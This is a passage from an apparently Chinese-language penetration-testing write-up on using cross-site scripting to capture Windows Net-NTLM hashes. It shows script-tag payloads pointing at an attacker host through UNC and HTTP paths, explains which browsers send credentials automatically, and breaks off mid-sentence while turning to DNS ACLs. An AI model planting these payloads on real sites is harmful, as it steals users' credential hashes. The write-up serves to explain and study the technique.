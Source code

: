 ## 0x03 XSS

利用xss构造

```markup
<script src="\\172.16.100.1\xss">
```

![image-20191120204210564](https://p1.ssl.qhimg.com/t01d96892dd9bacd006.png)

这种情况适用于IE和edge，其他浏览器不允许从http域跨到file域，以chrome为例

![image-20191121105038929](https://p0.ssl.qhimg.com/t01b5e489638e741140.png)

我们接下来尝试不通过UNC路径，就xss里面访问http请求来发起认证

把payload 改成

```text
<script src="//172.16.100.1/x">
```

看到跳出认证框，我们也没抓到net-ntlm hash

![image-20191120210030762](https://p4.ssl.qhimg.com/t01d831a54fc5c0ddf4.png)

不像smb请求直接用当然用户名和密码去登录，发起http请求时，除非该站点的域名位于企业内部网或存在于可信站点列表中。否则都会跳出认证框来让操作者再输入一次。

![image-20191120210251212](https://p5.ssl.qhimg.com/t01cf6050d471e1b07f.png)

当我们选择`自动使用当前用户名和密码登录`就能拿到用户的net-ntlm hash

![image-20191120211056209](https://p5.ssl.qhimg.com/t011c799b3a99410492.png)

就可以抓到用户net-ntlm hash了

![image-20191120211129514](https://p2.ssl.qhimg.com/t01e21b083ca4f5bce3.png)

修改后的配置同样适用于chrome

那至今为止，在默认的配置情况底下，如果有xss，那构造的页面的效果有两种

1. 构造unc，访问smb 协议，但是这种方式的话就只有IE和edge能行

```markup
<script src="\\172.16.100.1\xss">
```

1. 构造http，访问http 协议，这种方式并不限制浏览器访问，但是除非该站点的域名位于企业内部网或存在于可信站点列表中，不然是不会使用系统默认的凭据进行登录的，会跳出认证框，让用户填写账号密码。

```markup
<script src="//172.16.100.1\xss">
```

第二点该站点的域名位于企业内部网也是行的，那如果我们可以修改控制域内的DNS是不是就可以动点手脚了。

在查看DNS的ACL的时候，我发现了一条规则
